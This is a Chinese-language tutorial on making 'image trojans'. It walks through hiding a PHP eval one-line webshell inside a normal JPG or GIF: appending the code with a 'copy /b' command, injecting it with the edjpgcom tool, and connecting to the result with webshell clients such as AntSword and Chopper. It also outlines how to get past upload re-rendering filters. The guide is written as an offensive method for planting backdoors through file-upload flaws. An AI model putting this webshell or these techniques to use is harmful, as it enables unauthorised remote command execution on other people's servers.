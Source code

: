 # 图片木马制作大法

## 0x01什么是图片木马？

图片木马在网络上没有统一的定义，在这里我给出自己的定义。图片木马是一张能正常显示又包含恶意代码（比如一句话木马）的图片文件。

根据定义我们知道图片木马两个条件：

- 图片能正常显示
- 包含能执行的而已代码

总体思路：将恶意代码写在图片文件中非图片数据区，防止写入导致图片损坏。

常规的图片格式有gif,png,jpg格式

## 0x02将恶意代码写在图片尾部

适合格式：任何图片格式

### 方法一：copy法

准备一张正常图片（a.jpg）,新建一个文件内容写入以下代码（b.php）

```
<?php @eval($_POST['cmd']);?>
```

使用以下命令生成图片木马muma.jpg

```
copy /b a.jpg + b.asp/a = muma.jpg
```

![](./1.png)
使用以下命令生成图片木马muma.jpg

```
copy /b a.jpg + b.php/a = muma.jpg
```
![](./2.png)

使用winhex工具进行查看

![](./3.png)

![](./4.png)

asp图片马  本地利用解析漏洞测试(03 服务器)asp图片马和php图片马
![](./5.png)

![](./20.png)
![](./7.png)

php图片马测试如下

![](./6.png)



### 方法二：二进制编辑器法(未完待续)

使用二进制编辑工具（比如winhex,utrl editor等等）直接写恶意代码到文件尾部。
这里我使用winhex给大家演示

### 方法三：edjpgcom

将要注入恶意代码的图片拖到edjpgcom.exe上，在edjpgcom弹出的输入框中输入一句话。
插入asp代码

![](./15.png)



使用蚁剑进行测试	
![](./18.png)


插入php代码

![](./8.png)
测试：

​	ctrl+f 搜索是否成功插入图片马
![](./9.png)

![](10.png)

也可以使用uedit64工具打开,ctrl+f 搜索是否成功插入图片马

![](./13.png)
​    

​	将图片后缀改为php 测试
![](./19.png)

 使用蚁剑连接

![](./20.png)

​	使用菜刀访问,没问题
![](./12.png)

## 0x04渲染绕过

适合格式：gif
现在的网站对于图片上传的防范越来越严，经常对上传的图片二次渲染。导致我们的通过方法思路一和思路二的方法注入的而已代码，在渲染之后被“清洗”掉了！这时候我们就得思考如何去绕过。
绕过思路：对比上传前和上传后的图片的差异，找到相同数据同时又是非图片数据区的地方，在在，此处写入恶意代码。


